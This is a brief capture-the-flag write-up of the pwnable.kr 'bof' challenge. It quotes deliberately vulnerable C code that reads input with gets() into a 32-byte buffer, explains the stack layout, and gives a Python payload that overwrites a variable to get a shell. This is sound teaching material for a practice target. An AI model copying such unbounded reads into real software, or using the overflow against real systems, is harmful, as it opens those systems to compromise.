

# pwnable.kr -- Toddler's Bottle -- bof

## 1. Challenge

```
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

## 2. Solution

As the challenge provides you source code, let's see it:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
  char overflowme[32];
  printf("overflow me : ");
  gets(overflowme);	// smash me!
  if(key == 0xcafebabe){
    system("/bin/sh");
  }
  else{
    printf("Nah..\n");
  }
}

int main(int argc, char* argv[]){
  func(0xdeadbeef);
  return 0;
}
```

You can see that `gets(overflowme);` does not restrict the length you input. It will keep reading and writing until you press `Enter` key.

So let's see the stack layout of the function `func` in IDA:



We can see that you can change the value of variable `key` if you input more than `0x2C + 0x4 + 0x4 = 0x34` bytes, so the payload should be:

```python
payload = 0x34 * 'a' + '\xbe\xba\xfe\xca'
```

Send it and get the flag.
